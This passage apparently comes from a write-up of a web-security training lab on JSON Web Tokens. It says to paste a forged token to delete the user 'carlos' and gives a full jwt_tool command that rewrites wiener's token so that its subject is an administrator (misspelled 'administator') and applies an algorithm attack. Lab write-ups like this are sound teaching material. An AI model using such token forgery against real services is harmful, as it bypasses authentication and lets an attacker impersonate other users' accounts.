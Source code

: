 ![picture 7](/assets/images/aacb1623b354f013d1d340d739c3c5ebdd3ddaaa88d18054d584113bb128fa6a.png)  

Paste the token in the browser and delete `carlos` in order to solve the lab.

![picture 8](/assets/images/349f499862ecff52755130a3915fe37f06a89e61d43feea704288f8d8bda7b8a.png) 

Alternatively we could use `wiener`'s token and run it througt `jwt_tool`

```
jwt_tool eyJraWQiOiJhNjI5OTk2My1jYmIwLTQ0NmMtOTk0YS01MzNjZjk5MWNiMjAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3Mzg5ODY5NH0.dSMupWeq6dJxk9WOqDjW9Hv2wrOs2y29fhig24pwroH6vI8gmO6lU-Zniz3T8eCrvpGz8Bs36RK0PWKxTcsWfvI68LMbwuud9pmHwg5hpTGMXphZptTYTmh_T1Cu-J9gzRJVLvYkKobseJ_z5PISh5f0nTNuF5QIpV7nZ2s-bLD7OxrwNl3VTjDqUQOIS13l9Xn-jPs28IyQiskI8IbOe4EpRUDfc8179Xa-w5l4LV_QD3rQcDyybq6fvkow6kw_tE01G2Ck4qTAQxImXcM-nIICW-vwssqZQYVCZ6hLui-IKbMgnssQOayEhwC1Vqg2FEQr0WN8uQMEKdZrjvasJw -pc sub -pv administator -I -X a
```
